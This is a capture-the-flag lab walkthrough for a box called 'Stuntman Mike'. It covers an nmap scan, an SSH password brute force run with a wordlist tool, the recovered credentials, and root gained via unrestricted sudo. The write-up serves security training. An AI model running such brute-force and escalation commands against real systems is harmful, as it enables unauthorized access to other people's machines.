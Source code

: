 # Stuntman Mike

***
## Difficulty = Easy

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/13cff441-8c21-4bbd-ba6a-7bde2c3f640e)

***

We decided to run our nmap scan

```shell
# Nmap 7.94 scan initiated Wed Sep  6 06:48:00 2023 as: nmap -p- -sVC -v --min-rate=1000 -T4 -oN nmap.txt 10.150.150.166
Warning: 10.150.150.166 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.150.150.166
Host is up (0.16s latency).
Not shown: 65390 closed tcp ports (conn-refused), 143 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 (protocol 2.0)
| ssh-hostkey: 
|   2048 b7:9e:99:ed:7e:e0:d5:83:ad:c9:ba:7c:f1:bc:44:06 (RSA)
|   256 7e:53:59:7b:2d:6c:3b:d7:21:28:cb:cb:78:af:99:78 (ECDSA)
|_  256 c5:d2:2d:04:f9:69:40:4c:15:34:36:fe:83:1f:f3:44 (ED25519)
8089/tcp open  ssl/http Splunkd httpd
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-10-25T09:15:13
| Not valid after:  2022-10-24T09:15:13
| MD5:   a81b:a4c7:ea97:ebc8:7f73:310f:e279:3eb2
|_SHA-1: 6bd8:1aeb:bb06:78e8:33ff:3419:27c9:6b03:4d72:44c1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  6 06:50:17 2023 -- 1 IP address (1 host up) scanned in 137.41 seconds
```

Decided to enumerate port 8089/**Splunkd**, but we did not have any leads, enumerating Port 22/**SSH**, we have a username enumeration vulnerability, I tried several exploits but still no leads, But trying to connect to SSH without password gives us this banner :

![](https://i.imgur.com/GgLPpZB.png)

Definitely we know `Mike` is the username, we can bruteforce the password using this [script](https://github.com/pwnesia/ssb) (I decided not to use **hydra** because it is too slow)

_Syntax :_

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PTD/10.150.150.166$ sudo ssb -p 22 -w /usr/share/wordlists/rockyou.txt -t 15s -c 100 mike@10.150.150.166
```

_Output :_

![](https://i.imgur.com/WDcfF9j.png)

Great!!!, Now we can login with the credentials `mike:babygirl` 

![](https://i.imgur.com/i6wDrwT.png)
#### Privilege Escalation

Running `sudo -l` we have permissions to run all commands with sudo {This means we can do sudo followed by any other programs or binary with the password "**babygirl**" and it should give us user as "**root**"}.

![](https://i.imgur.com/EUOdZic.png)

This privilege escalation vector is as simple as running the command `sudo su` which means to switch user, since we don't have any user specified, it will automatically switch to the user **root** for us.

![](https://i.imgur.com/K9XVlp3.png)

We got root!! bankai 😂

